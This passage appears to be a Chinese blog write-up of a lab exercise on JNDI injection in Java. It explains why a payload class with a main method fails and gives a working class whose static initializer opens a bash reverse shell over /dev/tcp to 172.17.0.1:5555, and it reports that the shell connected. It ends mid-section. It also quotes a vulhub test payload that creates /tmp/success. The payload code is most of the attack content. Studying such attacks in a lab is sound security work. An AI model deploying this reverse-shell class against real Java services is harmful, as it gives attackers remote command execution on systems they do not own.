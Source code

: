 ## 小问题

这时候我以为直接用`JavaShell_Runtime_Main.class`进行JDNI注入就可以反弹成功，实质上JNDI反弹Shell失败了。

## 分析问题

我看到vulhub的poyload是没有main函数的，而且是一个`static`括住的，那问题可能就出现在main函数这边了

```Java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

## 无main函数Java代码

那我们把原本有main的反弹shell代码修改一下得到如下代码（很简单的去除main函数）

```Java
public class JavaShell_Runtime_WithoutMain{
  static {
    try{
      Runtime r = Runtime.getRuntime();
      Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/172.17.0.1/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"});
      p.waitFor();
    }
    catch(Exception e){}
  }
}
```

编译成.class文件之后JNDI注入成功反弹shell（反弹成功是没有返回报文的）

![img](https://secure2.wostatic.cn/static/HUAWfSLPe7gZUoJy98LZK/image.png)

## 思考

也就是说，我们要绕过Runtime类去做反弹shell的话，需要做以下步骤：
